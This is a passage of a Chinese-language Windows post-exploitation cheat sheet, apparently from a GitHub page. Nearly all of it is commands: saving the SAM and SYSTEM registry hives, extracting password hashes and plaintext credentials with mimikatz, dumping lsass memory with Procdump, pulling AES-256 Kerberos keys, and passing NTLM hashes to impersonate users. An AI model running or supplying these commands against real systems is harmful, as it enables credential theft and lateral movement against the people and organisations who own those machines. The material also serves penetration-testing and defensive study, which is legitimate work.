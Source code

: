 ```
GetPass.exe
PwDump7.exe
```

#### SAM和SYSTEM抓取密码

```
reg save hklm\sam sam.hive
reg save hklm\system system.hive
```

```
使用mimikatz读取SAM和SYSTEM文件获得HASH

mimikatz.exe "lsadump::sam /sam:sam.hive /system:system.hive" "exit"
```

#### mimikatz

##### mimikatz 命令详解

```
privilege::debug      #提升权限
token::elevate        #将权限提升至system
lsadump::sam          #读取本地SAM文件，获得HASH
sekurlsa::logonpasswords  #在线读取散列值及明文密码
```

##### mimikatz 离线读取lsass.dmp

###### 使用Procdump 导出lsass.dmp

```
Procdump.exe -accepteula -ma -lsass.exe lsass.dmp
```

###### mimikatz 读取lsass.dmp

```
mimikatz
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
```

##### mimikatz 抓取AES-256密钥

```
mimikatz "privilege::debug" "sekurlsa::ekeys"
```

#### Hash传递

##### mimikatz 传递NTLM Hash

```
mimikatz "privilege::debug" "sekurlsa::pth /user:user /domain:domain /ntlm:hash"
```
